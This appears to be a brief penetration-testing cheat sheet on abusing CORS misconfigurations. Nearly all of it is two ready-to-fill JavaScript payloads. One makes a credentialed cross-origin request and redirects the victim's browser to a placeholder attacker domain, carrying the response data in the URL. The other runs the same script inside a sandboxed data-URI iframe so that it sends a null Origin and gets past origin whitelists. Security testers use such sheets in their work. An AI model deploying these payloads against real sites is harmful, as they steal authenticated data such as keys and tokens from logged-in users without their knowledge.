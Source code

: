 # Cors
## Requests with Cookies
```html
<script>
function reqListener() {
location = '//<DOMAIN>/key='+this.responseText;
}

var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('<METHOD>', '<URL>', true);
req.withCredentials = true;
req.send();
</script>
```

## Whitelists
**Note: The Origin header has nothing to do with non-controllable IP**
**Note: Still useful to check if server uses it**
### Null Origin
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms"
src="data:text/html, <script>
function reqListener() {
location = '//<DOMAIN>/key='+this.responseText;
}

var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('<METHOD>', '<URL>', true);
req.withCredentials = true;
req.send();
</script>"
/>
```
